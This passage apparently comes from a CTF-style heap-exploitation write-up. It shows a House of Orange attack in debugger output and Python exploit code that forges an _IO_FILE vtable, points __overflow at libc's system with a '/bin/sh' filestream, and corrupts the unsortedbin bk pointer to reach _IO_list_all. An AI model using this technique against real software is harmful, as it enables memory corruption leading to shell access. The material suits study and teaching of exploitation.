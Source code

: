 We also need to prepare the fake vtable, which is `0xd8` bytes after the beginning of the filestream, as shown by the `dt` command:

```other
pwndbg> dt "struct _IO_FILE_plus"
struct _IO_FILE_plus
    +0x0000 file                 : _IO_FILE
    +0x00d8 vtable               : const struct _IO_jump_t *
```

```bash
pwndbg> dt "struct _IO_jump_t"
struct _IO_jump_t
    +0x0000 __dummy              : size_t
    +0x0008 __dummy2             : size_t
    +0x0010 __finish             : _IO_finish_t
    +0x0018 __overflow           : _IO_overflow_t
[...]
```

Since we only care about the `__overflow` function, we can get things in the desired shape by only writing to `chunk_vt`.

```python
# Prepare the fake vtable.
# The filestream we are targeting expects vtable pointer to be @ heap + 0x178
# (this is +0xd8 from the beginning of the fake filestream).
# __overflow is invoked with a pointer to the filestream as its only argument,
# which, as per our forged chunk_06, is now "/bin/sh\0"
edit(chunk_vt, p64(libc.sym.system) + p64(heap + 0x178))
```

Note that while the pointer to the vtable must be `0x18` bytes from the beginning of `chunk_vt`, the vtable itself can be in any region of the heap we control. For simplicity, I kept everything inside `chunk_vt` by considering the beginning of the fake vtable to be 8 bytes before the beginning of `chunk_vt`.

The following picture shows the heap configuration we achieved. Our fake filestream starts at the beginning of the `"/bin/sh"` string.

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-09.png)

Next, we prepare for the unsortedbin attack, by replacing the `bk` pointer of the `0xb0` chunk in the unsortedbin with the address of `_IO_list_all`. In the process we also make sure that `_IO_write_base` and `_IO_write_ptr` get values that will cause the `__overflow` function to be called. Since `_IO_write_base` should be less than `_IO_write_ptr` we use, respectively, `0x0` and `0x1`

Note that the value of `fd` doesn't matter (it's ignored by the partial unlink performed by malloc for the unsortedbin). I use `0xcafebabe` as a placeholder:

```python
# Preparing the House of Orange attack, while finishing forgin the fake
# filestream with 0x0 for _IO_write_base and 0x1 for _IO_write_ptr. The
# latter will cause _overflow() to be called, since _mode is 0
edit(chunk_02, p64(0xcafebabe) + p64(libc.sym._IO_list_all - 0x10) + p64(0x0)
     + p64(0x1))
```

